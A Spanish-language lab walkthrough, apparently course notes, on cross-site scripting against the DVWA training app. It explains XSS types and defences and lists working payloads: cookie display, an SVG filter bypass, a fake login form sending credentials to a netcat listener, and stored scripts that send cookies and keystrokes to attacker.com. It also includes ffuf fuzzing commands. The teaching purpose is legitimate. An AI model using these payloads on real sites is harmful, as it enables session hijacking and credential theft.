




> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]

---
# Cross-Site Scripting - XSS (DVWA)

# 🔗 XSS (Cross-Site Scripting)

 
 

## 📖 Prueba de Concepto (PoC)

 

### 🔓 ¿Qué es XSS?

 

**Cross-Site Scripting (XSS)** o Scripting entre Sitios Cruzados, es una vulnerabilidad común en aplicaciones web que permite a los atacantes inyectar y ejecutar código malicioso (generalmente JavaScript) en el navegador web de los usuarios finales. Esta vulnerabilidad ocurre cuando la aplicación web no valida o escapa correctamente los datos de entrada que se muestran en páginas web.

 

> [!warning]
> 
 
> #### ⚠️ Tipos de XSS:
> 

> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **Reflected XSS
> (Reflejado)**
> 
> 
> 
> 
> **Stored XSS
> (Almacenado)**
> 
> 
> 
> 
> **DOM-based XSS
> (Basado en DOM)**
> 
> 
> 
> 
> 
> | Tipo de XSS | Descripción | Persistencia |
> | --- | --- | --- |
> | | El código malicioso se incluye en la URL y es reflejado por el servidor en la respuesta HTML | ❌ No persistente - Solo afecta al usuario que hace clic en el enlace malicioso |
> | | El código malicioso se almacena en la base de datos (comentarios, mensajes, perfiles) | ✅ Persistente - Afecta a todos los usuarios que visitan la página |
> | | La vulnerabilidad reside en la manipulación del DOM en el lado del cliente con JavaScript | ❌ No persistente - Se ejecuta directamente en el navegador sin pasar por el servidor |
> 
 

 

### 💣 Consecuencias de XSS

 

Las consecuencias de una vulnerabilidad XSS pueden ser graves, incluyendo:

 

> [!note]
> 
 
> #### 🎯 Impactos Potenciales:
> 
 

> 
> * **Robo de cookies de sesión:** Permite secuestrar la sesión del usuario
> 
> * **Robo de credenciales:** Captura de usuarios y contraseñas mediante formularios falsos
> 
> * **Phishing:** Presentación de formularios falsos para robar información
> 
> * **Defacement:** Modificación del contenido visible de la página
> 
> * **Redirección maliciosa:** Redirigir al usuario a sitios de malware
> 
> * **Keylogging:** Captura de todas las teclas presionadas por el usuario
> 
> * **Inyección de malware:** Descarga e instalación de software malicioso
> 
> * **Compromiso de la seguridad del sitio:** Ataque a otros usuarios del sitio
> 

> 

 

### 🛡️ Prevención de XSS

 

Para prevenir y mitigar las vulnerabilidades XSS, es importante seguir buenas prácticas de seguridad:

 

> [!tip]
> 
 
> #### 🔐 Mejores Prácticas:
> 
 

> 
> * Validar y escapar correctamente todos los datos de entrada antes de mostrarlos en una página web
> 
> * Utilizar técnicas de codificación adecuadas (HTML encoding, JavaScript encoding, URL encoding)
> 
> * Implementar **Content Security Policy (CSP)** mediante cabeceras HTTP
> 
> * Sanitizar entradas usando bibliotecas especializadas (DOMPurify, OWASP Java Encoder)
> 
> * Usar frameworks que escapen automáticamente (React, Angular, Vue.js)
> 
> * Configurar la cookie de sesión con flags `HttpOnly` y `Secure`
> 
> * Educar a los desarrolladores sobre las mejores prácticas de seguridad
> 
> * Mantenerse actualizado con parches de seguridad
> 

> 

 

 
 

## 🎯 XSS DOM (DOM-based XSS)

 

### 📖 Descripción

 

En **DOM XSS**, el payload se ejecuta directamente sobre la URL. El código JavaScript malicioso altera el DOM de la página web y se ejecuta en el navegador del usuario **sin pasar por el servidor**.

 

> [!warning]
> 
 
> **🎯 Objetivo de la práctica:** Robar la cookie del usuario autenticado
> 

 

### 🔧 Paso 1: Configuración y Exploración

 

 
* Accedemos vía web, ponemos security en "low" y comprobamos cómo funciona de forma normal esa web
 
* Seleccionamos el lenguaje y observamos la URL
 

 

### 💉 Paso 2: Inyectar Payloads XSS DOM

 

#### Payload 1: Alert básico

 

Modificamos el parámetro añadiendo lo siguiente al final del mismo:

 

```
?default=<script>alert()</script>
```

 

#### Payload 2: Mostrar la cookie

 

Probamos ahora a acceder a la cookie:

 

```
?default=<script>alert(document.cookie)</script>
```

 

> [!note]
> 
 
> #### 💡 ¿Por qué funciona?
> 
 
> El código JavaScript en la URL es procesado directamente por el navegador y manipula el DOM de la página. El objeto `document.cookie` contiene todas las cookies del sitio, incluyendo la cookie de sesión.
> 

 

#### Payload 3: SVG onload (bypass de filtros)

 

Ahora probamos con otro payload XSS que puede bypasear algunos filtros:

 

```
</option></select><svg/onload=alert(document.cookie)>
```

 

#### Payload 4: Modificar la página (Defacement)

 

Probamos a ver si podemos cambiar el aspecto de la web:

 

```
<script>document.body.style.background = "#141d2b"</script>
```

 

> [!tip]
> 
 
> #### 🎨 Otros ejemplos de manipulación del DOM:
> 
 
> ```
> // Cambiar el título
> <script>document.title="Hacked"</script>
> 
// Redirigir a otra página
> <script>window.location="http://evil.com"</script>
> 
// Eliminar todo el contenido
> <script>document.body.innerHTML=""</script>
> 
// Insertar imagen
> <script>document.body.innerHTML=""</script>
> ```
> 
 

 

 
 

## 🔄 XSS Reflected (Reflejado)

 

### 📖 Descripción

 

En este tipo de XSS, el código malicioso se incluye en la URL de una página web y es enviado al servidor. El servidor luego **refleja o devuelve** ese código malicioso en la respuesta HTML enviada al navegador del usuario.

 

### 💣 Payloads de Prueba

 

Ponemos el payload directamente en el cuadro de texto y observamos el resultado:

 

> [!note]
> 
 
> #### Lista de Payloads XSS Reflected:
> 
 
> ```
> // Alert básico
> <script>alert("prueba")</script>
> 
// Mostrar cookie
> <script>alert(document.cookie)</script>
> 
// SVG onload (bypass de filtros)
> <svg/onload=alert(document.cookie)>
> 
// Imagen con error
> 
> 
// Modificar fondo
> <script>document.body.style.background = "#141d2b"</script>
> ```
> 
 

 

### 🎣 Ataque de Phishing con XSS Reflected

 

#### Paso 1: Configurar Listener en Kali

 

Ponemos en nuestra Kali en escucha un netcat en el puerto 80:

 



 

```bash
$ nc -lvnp 80
```

 

#### Paso 2: Inyectar Formulario Falso

 

Insertamos el siguiente payload modificando la dirección de `action` para que apunte a nuestra Kali:

 

```
?name=<h3>Please login to proceed</h3> <form action=http://10.0.0.6>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

 

> [!warning]
> 
 
> #### 🎣 Cómo Funciona el Ataque de Phishing:
> 
 

> 
> 1. El atacante crea un formulario de login falso con XSS
> 
> 2. El formulario apunta a un servidor controlado por el atacante (10.0.0.6)
> 
> 3. La víctima ve un formulario que parece legítimo
> 
> 4. Al enviar credenciales, estas se envían al servidor del atacante
> 
> 5. El atacante captura las credenciales en netcat
> 

> 

 

#### Paso 3: Probar Credenciales

 

Probamos unas credenciales en el formulario falso y vemos qué ocurre en el listener de netcat.

 

> [!warning]
> 
 
> **⚠️ Importante - Ingeniería Social:**
> 
> Para que este ataque funcione en la vida real, el atacante debe enviar un enlace malicioso por email, redes sociales, o mediante técnicas de ingeniería social para que la víctima haga clic en él.
> 
> **Ejemplo de URL maliciosa:**
> 
> ```
> http://dvwa.local/vulnerabilities/xss_r/?name=<h3>Session expired...</h3><form...>
> ```
> 
 

 

 
 

## 💾 XSS Stored (Almacenado)

 

### 📖 Descripción

 

El payload se **almacena en una base de datos** o en algún otro lugar de almacenamiento de la aplicación web, como un comentario o un mensaje en un foro. Cada vez que un usuario accede a la página, el código malicioso se ejecuta automáticamente.

 

> [!warning]
> 
 
> #### ⚠️ ¿Por qué es más peligroso?
> 
 
> **Stored XSS** es considerado el más peligroso porque:
> 

> 
> * ✅ Es **persistente** - permanece en el servidor
> 
> * ✅ Afecta a **todos los usuarios** que visitan la página
> 
> * ✅ No requiere que la víctima haga clic en un enlace
> 
> * ✅ Se ejecuta automáticamente al cargar la página
> 
> * ✅ Puede permanecer sin detectar durante mucho tiempo
> 

> 

 

### 💉 Paso 1: Inyectar Payload Almacenado

 

Crear un mensaje/comentario donde aparezca el siguiente código:

 

```
<script>alert(document.domain)</script>
```

 

### 🔄 Paso 2: Verificar Persistencia

 

Si actualizamos la web, volverá a mostrar el mensaje de alerta. Esto confirma que el payload está **almacenado permanentemente** en la base de datos.

 

> [!note]
> 
 
> #### 🎯 Payloads Avanzados para Stored XSS:
> 
 
> ```
> // Robo de cookies y envío a servidor externo
> <script>
> fetch('http://attacker.com/steal.php?cookie=' + document.cookie);
> </script>
> 
// Crear una imagen invisible que envía la cookie
> 
> 
// Redirigir a phishing
> <script>window.location='http://fake-login.com'</script>
> 
// Keylogger simple
> <script>
> document.onkeypress = function(e) {
> fetch('http://attacker.com/log.php?key=' + e.key);
> }
> </script>
> ```
> 
 

 

> [!warning]
> 
 
> **⚠️ Impacto Real de Stored XSS:**
> 
> En un escenario real, si un atacante logra inyectar Stored XSS en una sección de comentarios o foro:
> 

> 
> * Cada usuario que visite esa página ejecutará el código malicioso
> 
> * El atacante puede robar cookies de sesión de administradores
> 
> * Se pueden propagar gusanos XSS que se auto-replican
> 
> * Se puede desfigurar permanentemente el sitio web
> 

> 

 

 
 

## 🔍 Fuzzing con Diccionarios XSS

 

Al igual que en otros casos, podemos pasar un diccionario para comprobar si existe este tipo de vulnerabilidad.

 

### 📚 Ubicación de Diccionarios

 

Los diccionarios están en:

 

```
/usr/share/seclists/Fuzzing/XSS
```

 



 

### 📦 Otro Diccionario Útil

 

Hay otro diccionario en:

 



 



 

> [!tip]
> 
 
> #### 🔧 Fuzzing con ffuf:
> 
 
> ```bash
> # Fuzzing de parámetro vulnerable a XSS Reflected
> $ ffuf -u "http://dvwa.local/vulnerabilities/xss_r/?name=FUZZ" \
> -w /usr/share/seclists/Fuzzing/XSS/XSS-Jhaddix.txt \
> -b "cookie_value" \
> -mr "XSS|script"
> 
# Fuzzing de parámetro vulnerable a XSS DOM
> $ ffuf -u "http://dvwa.local/vulnerabilities/xss_d/?default=FUZZ" \
> -w /usr/share/seclists/Fuzzing/XSS/XSS-BruteLogic.txt \
> -b "cookie_value"
> ```
> 
 

 

> [!warning]
> 
 
> **📋 Diccionarios Recomendados:**
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **XSS-Jhaddix.txt**
> 
> 
> 
> 
> **XSS-BruteLogic.txt**
> 
> 
> 
> 
> **XSS-Bypass-Strings.txt**
> 
> 
> 
> 
> **XSS-RSNAKE.txt**
> 
> 
> 
> 
> 
> | Diccionario | Ubicación | Descripción |
> | --- | --- | --- |
> | | /usr/share/seclists/Fuzzing/XSS/ | Colección completa de payloads XSS |
> | | /usr/share/seclists/Fuzzing/XSS/ | Payloads especializados de BruteLogic |
> | | /usr/share/seclists/Fuzzing/XSS/ | Técnicas de bypass de filtros |
> | | /usr/share/seclists/Fuzzing/XSS/ | Cheat sheet clásico de RSNAKE |
> 
 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ XSS permite ejecutar JavaScript malicioso en el navegador de las víctimas
> 
> * ✅ Existen 3 tipos: Reflected, Stored y DOM-based
> 
> * ✅ Stored XSS es el más peligroso por su persistencia
> 
> * ✅ XSS puede robar cookies, credenciales y sesiones
> 
> * ✅ Se puede usar para phishing, defacement y keylogging
> 
> * ✅ Los diccionarios de SecLists facilitan la detección
> 
> * ✅ Content Security Policy (CSP) es la mejor defensa
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **XSS**
> 
> 
> 
> **Reflected XSS**
> 
> 
> 
> **Stored XSS**
> 
> 
> 
> **DOM XSS**
> 
> 
> 
> **Session Hijacking**
> 
> 
> 
> **CSP**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Inyección de código JavaScript en páginas web |
> | | Payload reflejado inmediatamente por el servidor |
> | | Payload almacenado en base de datos (persistente) |
> | | Manipulación del DOM en el cliente sin pasar por servidor |
> | | Robo de cookies de sesión mediante XSS |
> | | Content Security Policy - cabecera de protección contra XSS |
> 

> 
> ### 🛡️ Comparación de Defensas:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **Content Security Policy**
> 
> 
> 
> 
> **HTML Encoding**
> 
> 
> 
> 
> **HttpOnly Cookie Flag**
> 
> 
> 
> 
> **Input Validation**
> 
> 
> 
> 
> **WAF (Web App Firewall)**
> 
> 
> 
> 
> **Blacklist Filtering**
> 
> 
> 
> 
> 
> | Defensa | Efectividad | Implementación |
> | --- | --- | --- |
> | | 🟢 Muy Alta | Cabecera HTTP que bloquea scripts inline |
> | | 🟢 Alta | Escapar caracteres especiales (< > " ') |
> | | 🟢 Alta | Previene acceso a cookies desde JavaScript |
> | | 🟡 Media | Validar y sanitizar todas las entradas |
> | | 🟡 Media | Filtrado de payloads conocidos |
> | | 🔴 Baja | Fácilmente bypasseable |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Anterior: 05 - File Upload
> 
> → Siguiente: 07-01 - SQL Injection (Fundamentos)
> 
> ↑ Volver al Índice del Módulo
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]
